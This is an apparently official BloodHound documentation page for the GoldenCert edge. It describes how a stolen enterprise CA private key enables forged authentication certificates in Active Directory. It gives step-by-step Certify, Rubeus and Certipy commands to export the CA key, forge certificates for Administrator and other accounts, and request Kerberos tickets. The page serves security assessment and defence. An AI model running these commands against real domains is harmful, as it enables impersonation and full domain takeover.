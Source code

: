 ```yaml
---
title: GoldenCert
description: The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key

Use Certify (2.0) to export all certificates in the local machine certificate store and identify the CA certificate by the name of the CA:

```cmd
Certify.exe manage-self --dump-certs
```

#### Step 2

Forge certificate and obtain a TGT as targeted principal.

Forge a certificate of a target principal:
```cmd
Certify.exe forge --ca-cert <pfx-path/base64-pfx> --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500
```

Request a TGT for the targeted principal using the certificate with Rubeus:
```cmd
Rubeus.exe asktgt /user:Administrator /domain:dumpster.fire /certificate:<pfx-path/base64-pfx>
```
### Linux

#### Step 1

Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy, and identify the CA certificate by the name of the CA.
```bash
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!'
```
#### Step 2

Forge a certificate of a target principal:
```bash
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire'
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```bash
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10'
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## Edge Schema

Source: [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Destination: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)  
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/Certify/wiki/3-%E2%80%90-Domain-Persistence-Techniques#dpersist1---forging-certificates-with-stolen-ca-certificates](https://github.com/GhostPack/Certify/wiki/3-%E2%80%90-Domain-Persistence-Techniques#dpersist1---forging-certificates-with-stolen-ca-certificates)
* [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

